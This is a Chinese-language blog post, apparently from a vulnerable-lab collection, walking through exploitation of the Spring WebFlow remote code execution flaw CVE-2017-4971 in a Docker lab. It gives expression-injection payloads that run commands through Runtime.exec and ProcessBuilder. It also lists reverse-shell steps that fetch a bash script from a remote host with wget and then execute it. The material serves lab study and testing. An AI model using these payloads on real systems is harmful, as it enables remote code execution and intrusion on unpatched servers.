 ```yaml
---
layout: post
title: "Spring WebFlow 远程代码执行漏洞(CVE-2017-4971)"
date: 2017-06-18 02:26:53 +0800
image: '/assets/img/'
description: 'Spring Web Flow 在 Model 的数据绑定上面，由于没有明确指定相关 model 的具体属性导致从表单可以提交恶意的表达式从而被执行，导致任意代码执行的漏洞'
main-class: 'hole'
color: '#B31917'
tags:
- Spring
- RCE
categories:
- Spring
twitter_text: 'Spring Web Flow 在 Model 的数据绑定上面，由于没有明确指定相关 model 的具体属性导致从表单可以提交恶意的表达式从而被执行，导致任意代码执行的漏洞.'
introduction: 'Spring Web Flow 在 Model 的数据绑定上面，由于没有明确指定相关 model 的具体属性导致从表单可以提交恶意的表达式从而被执行，导致任意代码执行的漏洞.'
---
```


### 漏洞信息

* [CVE-2017-4971：Spring WebFlow 远程代码执行漏洞分析](http://bobao.360.cn/learning/detail/3963.html)

### 影响版本

Spring WebFlow 2.4.0 ~ 2.4.4

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
测试帐号1 | keith | melbourne
测试帐号2 | erwin | leuven
测试帐号3 | jeremy | atlanta
测试帐号4 | scott | rochester
登陆地址 | /login | -
容器tomcat端口 | 8080 | -

### 获取环境:

1.拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_springwebflow_1
 ```

2.启动环境
 ```bash
$ docker run -d -p 80:8080 medicean/vulapps:s_springwebflow_1
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

假定目标地址为： http://127.0.0.1:32773

1.使用测试账号登录目标站 http://127.0.0.1:32773/login

2.随便找一个酒店(http://127.0.0.1:32773/hotels/1),点 `Book Hotel`

3.填写订单详情，后点击 `Proceed` 生成订单

 > 注意：Credit Card 这里是 16 位（前端校验）

4.打开 BurpSuite 准备截包

5.用 BurpSuite 捕获点击下图 `Confirm` 后的数据包
 ![](https://github.com/Medicean/VulApps/raw/master/s/springwebflow/1/poc-step-1.png)

6.在POST数据包中加入下面这段数据：

 ```
&_T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getResponse().addHeader("vulnerable","True").aaa=n1nty
 ```
 ![](https://github.com/Medicean/VulApps/raw/master/s/springwebflow/1/poc-step-2.png)

7.执行成功后会如上图所示，在 HTTP 返回头部中会多出 `vulnerable` 字段

#### Exp

执行命令：

```
&_T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
```

或者

```
&_(new+java.lang.ProcessBuilder("touch /tmp/success2")).start()=test
```

#### 反弹 Shell 步骤：

> 如果你能改成一次就能反弹Shell的 Exp, 欢迎分享

假定目标地址为： http://127.0.0.1:32774

1.使用 `wget` 下载远程 bash 脚本

 ```
&_T(java.lang.Runtime).getRuntime().exec("/usr/bin/wget -qO /tmp/1 http://192.168.2.140:8000/1")
 ```
 ![](https://github.com/Medicean/VulApps/raw/master/s/springwebflow/1/exp-step-1.png)

2.执行上一步下载的脚本

 ```
&_T(java.lang.Runtime).getRuntime().exec("/bin/bash /tmp/1")
 ```
 ![](https://github.com/Medicean/VulApps/raw/master/s/springwebflow/1/exp-step-2.png)

### 参考链接

* [CVE-2017-4971：Spring WebFlow 远程代码执行漏洞分析](http://bobao.360.cn/learning/detail/3963.html)
* [CVE-2017-4971: Data Binding Expression Vulnerability in Spring Web Flow](https://pivotal.io/security/cve-2017-4971)

